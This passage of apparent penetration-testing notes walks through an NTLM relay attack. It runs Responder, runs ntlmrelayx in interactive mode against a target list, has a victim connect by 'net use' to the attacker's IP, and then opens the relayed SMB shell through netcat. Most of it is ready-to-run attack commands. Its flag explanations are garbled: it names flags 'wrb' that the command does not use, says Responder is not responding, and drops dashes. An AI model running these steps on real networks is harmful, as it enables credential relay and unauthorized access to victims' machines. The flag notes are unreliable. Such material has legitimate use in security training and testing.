     ```Shell
    sudo responder -I eth0 -dwv
    ```
    
    - `I eth0`: Specifies the network interface.
    - `wrb`: Flags to set Responder for capturing without responding.

### 2. **Launching ntlmrelayx for Interactive Shell**

We now set up **ntlmrelayx** to gain an interactive shell.

### Steps to Run ntlmrelayx:

1. **Run ntlmrelayx with Interactive Mode**:
    
    ```Shell
    sudo ntlmrelayx.py -tf targets.txt --smb2support -i
    ```
    
    - `tf targets.txt`: Target file containing the IPs to relay to.
    - `-smb2support`: Enables support for SMBv2.
    - `i`: Launches an interactive SMB client shell upon successful authentication.
    
    ![[/image 17 4.png|image 17 4.png]]
    
2. **Wait for Authentication**:
    - The tool will wait for incoming connections and attempt to relay them to the specified targets.

### 3. **Triggering the Attack**

1. Use a **victim machine** to trigger the event:
    
    ```Shell
    net use \\\\192.168.57.139\\share
    ```
    
    - Replace `192.168.57.139` with your attacker's IP address.
    
    ![[/image 18 3.png|image 18 3.png]]
    
2. **Monitor ntlmrelayx Output**:
    - If successful, you’ll see:
        
        ![[/image 19 3.png|image 19 3.png]]
        

### 4. **Accessing the Interactive SMB Shell**

- Once you received with interactive SMB client shell, you will need to use netcat to initiate a connection with the shell.

1. **Open a New Terminal Tab**.
2. **Connect Using netcat**:
    
    ```Shell
    nc 127.0.0.1 11000
    ```
    